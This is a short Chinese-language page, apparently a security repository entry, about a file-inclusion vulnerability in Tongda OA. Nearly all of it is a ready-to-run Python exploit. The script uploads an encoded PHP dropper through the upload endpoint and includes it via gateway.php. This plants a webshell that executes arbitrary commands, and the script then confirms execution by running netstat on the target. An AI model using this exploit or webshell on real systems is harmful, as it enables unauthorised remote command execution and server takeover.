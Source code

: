 # 通达OA文件包含漏洞

[TOC]


# 漏洞利用  

脚本代码

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @userVersion : python 3.7
# @Author  : fsrm
# @Data    : 2020/3/18
# @Effect  : tongda_oa_file_include
# @Version : V1.0
import os
import sys
import requests
def tongda_oa_file_include_check(target_url):
    filename = "tongda_vul.php"
    webshell = '''<?php
            $fp = fopen('tongda_vul.php', 'w+');
            $a = base64_decode("JTNDJTNGcGhwJTBBJTI0Y29tbWFuZCUzRCUyNF9HRVQlNWIlMjdhJTI3JTVkJTNCJTBBJTI0d3NoJTIwJTNEJTIwbmV3JTIwQ09NJTI4JTI3V1NjcmlwdC5zaGVsbCUyNyUyOSUzQiUwQSUyNGV4ZWMlMjAlM0QlMjAlMjR3c2gtJTNFZXhlYyUyOCUyMmNtZCUyMC9jJTIwJTIyLiUyNGNvbW1hbmQlMjklM0IlMEElMjRzdGRvdXQlMjAlM0QlMjAlMjRleGVjLSUzRVN0ZE91dCUyOCUyOSUzQiUwQSUyNHN0cm91dHB1dCUyMCUzRCUyMCUyNHN0ZG91dC0lM0VSZWFkQWxsJTI4JTI5JTNCJTBBZWNobyUyMCUyNHN0cm91dHB1dCUzQiUwQSUzRiUzRQ==");
            fwrite($fp, urldecode($a));
            fclose($fp);
            ?>'''
    upload_url = target_url + "/ispirit/im/upload.php"
    include_url = target_url + "/ispirit/interface/gateway.php"
    shell_url = target_url + "/ispirit/interface/" + str(filename) + "?a=netstat -an"
    files = {'ATTACHMENT': webshell}
    upload_data = {"P": "123", "DEST_UID": "1", "UPLOAD_MODE": "2"}
    upload_res = requests.post(upload_url, upload_data, files=files, timeout=5)
    path = upload_res.text
    path = path[path.find('@') + 1:path.rfind('|')].replace("_", "\/").replace("|", ".")
    include_data = {"json": "{\"url\":\"/general/../../attach/im/" + path + "\"}"}
    include_res = requests.post(include_url, data=include_data, timeout=5)
    shell_res = requests.get(shell_url)
    if "ESTABLISHED" in shell_res.text:
        print("The target is vulnerable ")
        print("shell: "+shell_url)
    else:
        print("target is not vulnerable")

if __name__ == '__main__':
    if len(sys.argv)!=2:
        print("use python tongda_oa_file_include.py http://127.0.0.1")
        sys.exit()
    tongda_oa_file_include_check(sys.argv[1])


```
